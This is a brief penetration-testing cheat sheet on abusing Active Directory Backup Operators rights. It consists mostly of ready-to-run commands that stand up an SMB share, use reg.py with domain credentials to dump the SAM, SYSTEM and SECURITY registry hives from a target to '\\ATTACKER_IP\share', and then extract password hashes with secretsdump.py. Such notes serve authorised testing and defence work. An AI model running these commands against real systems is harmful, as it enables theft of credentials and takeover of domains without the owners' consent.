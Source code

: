 **Backup Operators** is a built-in group in Active Directory environments that grants members the ability to back up and restore files, regardless of file permissions. Members of this group can bypass NTFS permissions to perform backup and restore operations on the system.

### Create a location to save information

```bash
mkdir share
cd share
sudo smbserver.py share . -smb2support
```

### Run the attack

```bash
reg.py domain/user:password@target save -keyName 'HKLM\SAM' -o '\\ATTACKER_IP\share'
reg.py domain/user:password@target save -keyName 'HKLM\SYSTEM' -o '\\ATTACKER_IP\share'
reg.py domain/user:password@target save -keyName 'HKLM\SECURITY' -o '\\ATTACKER_IP\share'
```

### Extract the information

```bash
secretsdump.py -sam SAM.save -security SECURITY.save -system SYSTEM.save LOCAL
```

